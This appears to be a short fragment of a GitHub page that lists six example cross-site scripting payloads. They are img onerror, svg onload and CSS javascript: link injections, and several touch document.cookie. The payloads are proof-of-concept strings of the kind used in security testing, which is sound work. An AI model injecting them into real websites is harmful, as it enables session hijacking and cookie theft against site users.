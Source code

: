 
Example payload 1:
```
"><img src="x" onerror="prompt(cookie)">
```

Example payload 1b:
```
"><img src="x" onmouseover="alert(document.domain)">
```

Example payload 2:
```
<image src=x onerror=alert(1)>
```

Example payload 3:
```
<img src=x onerror=alert(5)>
```

Example Payload 4:
```
#red;-o-link:\u0027\u003Cjavascript:alert(1)\u003E\u0027;-o-link-source:current; testit`
```

Example Payload 5:
```
<svg/onload=alert(document.cookie)>
```

